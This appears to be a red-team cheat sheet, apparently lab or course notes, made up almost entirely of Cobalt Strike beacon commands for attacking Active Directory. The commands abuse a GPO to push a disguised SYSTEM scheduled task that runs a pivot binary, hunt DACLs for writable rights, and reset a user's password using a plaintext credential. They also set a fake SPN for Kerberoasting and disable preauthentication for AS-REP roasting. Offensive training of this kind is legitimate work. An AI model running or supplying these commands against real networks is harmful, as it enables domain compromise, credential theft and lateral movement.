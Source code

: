 ### SharpGPOAbuse

###### <font style="color:#00b3ff">Add an Immediate Scheduled Task to the PowerShell Logging GPO</font> 
```
beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Debug\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"
```

---
### Discretionary Access Control Lists

###### <font style="color:#00b3ff">Looks for principals that has ACL over user jadams</font> 
```
beacon> powershell Get-DomainObjectAcl -Identity jadams | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select SecurityIdentifier, ActiveDirectoryRights | fl
```

###### <font style="color:#00b3ff">Look for an entire OU</font> 
```
beacon> powershell Get-DomainObjectAcl -SearchBase "CN=Users,DC=dev,DC=cyberbotic,DC=io" | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

###### <font style="color:#00b3ff">Reset a user's password (pretty bad OPSEC)</font> 
```
beacon> getuid
beacon> make_token DEV\jking Purpl3Drag0n
beacon> run net user jadams N3wPassw0rd! /domain
```

###### <font style="color:#00b3ff">Instead of changing the password we can set an SPN on the account, kerberoast it and attempt to crack offline</font> 
```
beacon> powershell Set-DomainObject -Identity jadams -Set @{serviceprincipalname="fake/NOTHING"}
beacon> powershell Get-DomainUser -Identity jadams -Properties ServicePrincipalName
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /user:jadams /nowrap
beacon> powershell Set-DomainObject -Identity jadams -Clear ServicePrincipalName
```

###### <font style="color:#00b3ff">Modify the User Account Control value on the account to disable preauthentication and then ASREProast it</font> 
```
beacon> powershell Get-DomainUser -Identity jadams | ConvertFrom-UACValue
beacon> powershell Set-DomainObject -Identity jadams -XOR @{UserAccountControl=4194304}
beacon> powershell Get-DomainUser -Identity jadams | ConvertFrom-UACValue
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asreproast /user:jadams /nowrap
beacon> powershell Set-DomainObject -Identity jadams -XOR @{UserAccountControl=4194304}
beacon> powershell Get-DomainUser -Identity jadams | ConvertFrom-UACValue
```
